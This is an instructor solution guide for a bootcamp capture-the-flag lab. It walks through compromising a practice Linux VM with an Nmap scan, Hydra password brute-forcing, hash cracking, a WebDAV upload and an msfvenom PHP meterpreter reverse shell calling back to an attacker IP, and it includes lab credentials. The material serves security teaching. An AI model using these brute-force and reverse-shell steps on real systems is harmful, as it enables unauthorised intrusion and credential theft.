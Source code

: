 ## Day 1 Solution Guide: Red Team

This solution guide should only be used to help students if they get stuck. Before helping students, remind them that penetration testing is usually done in teams that collaborate with one another.

If students are still struggling or stuck, consult the following guides and offer assistance.

While going through the solution file, please note that the IP addresses here need to be replaced your machine's IP addresses. 
  
### Step 1: Discover the IP address of the Linux server.

In order to find the IP address of the machine, you will need to use Nmap to scan your network.

- Open the terminal and run: `nmap 192.168.1.0/24`

   ![1_nmap.png](images/1_nmap.png)

From the Nmap scan we can see that port `80` is open. Open a web browser and type the IP address of the machine into the address bar.

- Open a web browser and navigate to `192.168.1.105` and press `enter`.

   ![2_web_discovery.png](images/2_web_discovery.png)

### Step 2: Locate the hidden directory on the server.

- Navigating through different directories, you will see a reoccurring message:

  ```
  Please refer to company_folders/secret_folder for more information
  ERROR: company_folders/secret_folder/ is no longer accessible to the public
  ```

- Navigate to the directory by typing: `192.168.1.105/company_folders/secret_folder`

- The directory asks for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only."

    ![4_password_protect.png](images/4_password_protect.png)

### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Using Ashton's name, run the Hydra attack against the directory:

  - Type: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`

      ![5_hydra_sytanx.png](images/5_hydra_sytanx.png)

- The brute force attack may take some time. Once it finishes, you'll find the username is `ashton` and the password is `leopoldo`.

    ![6_password_discovery.png](images/6_password_discovery.png)

- Go back to the web browser and use the credentials to log in. Click the file `connecting_to_webdav`.

   ![7_inside_secret_directory.png](images/7_inside_secret_directory.png)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

   ![webdav_instructions.png](images/8b_webdav_instructions.png)

   ![webdav_hash.png](images/8a_webdav_hash.png)

**Step 4: Connect to the server via Webdav**

There are several ways to break the password hash. Here, we simply used Crack Station, to avoid waiting for `john` to crack the password.

Navigate to `https://crackstation.net`; paste the password hash and fill out the CAPTCHA; and click **Crack Hashes**.

   ![cracked](images/9_password_hash.png)

  - The password is revealed as: `linux4u`

### Step 5: Connect to the server via WebDAV.

This may be the most difficult part of the Red Team exercise, as it will require students to do external research on how to connect to the VM's WebDAV directory.

In addition, the instructions show an outdated IP address that the students will need to change to the IP address they discovered.

- In order to do so, students will already need to have the user name and following instructions from the `secret_folder`. Direct students to:
  - Open the `File System` shortcut from the desktop.
  - Click `Browse Network`.
  - In the URL bar, type: `dav://192.168.1.105/webdav`, and enter the credentials to log in.

    ![10_connect_to_webdav.png](images/10_connect_to_webdav.png)

### Step 6: Upload a PHP reverse shell payload.

- To set up the reverse shell, run:

  - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`

   ![11_msfvenom.png](images/11_msfvenom.png)

- Run this series of commands to set up a listener:

  - `msfconsole` to launch `msfconsole`.
  - `use exploit/multi/handler`
  - `set payload php/meterpreter/reverse_tcp`
  - `show options` and point out they need to set the `LHOST`.
  - `set LHOST 192.168.1.90`
  - `exploit`

    ![12_listener.png](images/12_listener.png)

- Place the reverse shell onto the WebdDAV directory.

    ![13_implanting_the_reverse.png](images/13_implanting_the_reverse.png)

- Now that you're logged in, connect to the webdav folder by navigating to `192.168.1.105/webdav`. Use the credentials that you used before, `user:ryan pass:linux4u`.

  ![14_webdav.png](images/14_webdav.png)

- Navigate to where you first uploaded the reverse shell and click it to activate it. If it seems like the browser is hanging or loading, that means it has worked.
    - If it asks you if you'd like to save or open the PDF file, start again at the beginning of Step 5.

  ![15_activiating_the_shell.png](images/15_activiating_the_shell.png)

### Step 7: Find and capture the flag.

- On the listener, search for the file `flag.txt` located in the `root` directory. Students can use many techniques they have learned in order to find it.

- On the listener, search for the file `flag.txt` located in the root directory. Students can use many techniques they have learned to find it. One technique is to run:

  - Drop into a bash shell with the command: `shell`
  - Go to the `/` directory: `cd /`
  - Search the system for any files containing the phrase "flag" : `find . -iname flag.txt`

Students can read the file, once located, with `cat`.

   ![16_view_files](images/16_view_files.png)

| :warning: **Important Checkpoint** :warning:                     |
|------------------------------------------------------------------|
| **At this time, you should have completed the following steps:** |
| Step 1: Discover the IP address of the Linux server.             |
| Step 2: Locate the hidden directory on the server.               |
| Step 3: Brute force the password for the hidden directory.       |
| Step 4: Crack the password hash.                                 |
| Step 5: Connect to the server via WebDAV.                        |
| Step 6: Upload a PHP reverse shell payload.                      |
| Step 7: Find and capture the flag.                               |

To complete the next part of the project, you must complete steps 1-6 at a minimum. 

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

